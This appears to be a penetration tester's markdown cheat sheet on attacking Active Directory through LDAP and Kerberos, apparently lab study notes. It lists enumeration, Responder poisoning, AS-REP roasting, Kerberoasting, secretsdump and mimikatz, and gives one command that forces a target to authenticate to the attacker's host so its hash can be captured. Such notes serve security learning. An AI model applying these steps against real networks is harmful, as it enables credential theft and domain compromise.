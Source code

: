 # ldap - Enumeration

## When we dont have anything

## Try to do an ldap anonymous bind

   ldapsearch -x -b "dc=example,dc=com"


### Use ldapdomaindump

https://github.com/Andre92Marcos/tools/tree/master/ldapDomainDump

### Use netexec

https://github.com/Andre92Marcos/tools/blob/master/netexec/README.md#ldap

## When we have access to target's network

Start responder to try to do some poisoning

   https://github.com/Andre92Marcos/tools/tree/master/responder

## If we have usernames and want to check if they are domain usernames

Enumerate users found to see if they pre authenticate to kerberos

   kerbrute userenum --dc <ip_to_domain_controller> -d <full_domain_name> <filename_with_usernames>


## When we have a domain username, no password, no shell

If we can make the target make a smb request back to us

   For example using sqlinjection, we can use responder to get hash and try to crack it
   https://github.com/Andre92Marcos/tools/tree/master/responder

Use bloodhound

   https://github.com/Andre92Marcos/tools/tree/master/bloodhound


Run impacket-GetNPUsers

   https://github.com/Andre92Marcos/tools/blob/master/impacket/getNPUsers.md

Run impacket-GetUsersSPNsA

   https://github.com/Andre92Marcos/tools/blob/master/impacket/getUserSPNs.md



## When we have a domain username, but no password, but we have a shell

Do a gci request to get the user hash (and use it in other protocols, and try to crack it), with responder running

   gci \\<mylocalhostip>\share\file #share and file dont have to exist

Use the snaffler tool

   https://github.com/Andre92Marcos/tools/tree/master/snaffler

Use bloodhound

   https://github.com/Andre92Marcos/tools/tree/master/bloodhound


If our user have some special permissions run secretdump

   https://github.com/Andre92Marcos/tools/blob/master/impacket/secretdump.md




If we are not finding anythin with bloodhound

   Load powesploit PowerView.ps1 from:

      https://github.com/PowerShellMafia/PowerSploit/tree/dev

   And then run 

      Find-InterestingDomainAcl -ResolveGUIDS | ConvertTo-Json

   This might find relations that bloodhound missed

## When have a local Admin or domain Admin

Use mimikatz tool. (Also if we have user with SeDebugPrivilege)

   https://github.com/Andre92Marcos/tools/tree/master/mimikatz


## Other Tips

### Sync time with kerberos

To figure out the difference in time with the kerberos server:

   sudo ntpdate 10.129.127.130

To simulate the difference in time when executing a command:

   faketime -f '+7h' <command>